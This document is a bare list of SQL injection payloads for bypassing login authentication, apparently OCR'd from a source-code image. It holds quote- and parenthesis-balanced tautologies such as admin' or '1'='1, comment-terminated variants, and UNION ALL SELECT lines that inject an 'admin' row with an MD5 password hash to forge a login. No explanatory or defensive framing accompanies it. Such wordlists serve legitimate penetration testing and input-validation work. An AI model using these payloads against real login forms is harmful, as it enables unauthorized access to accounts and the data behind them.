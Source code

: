 ```sql
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```
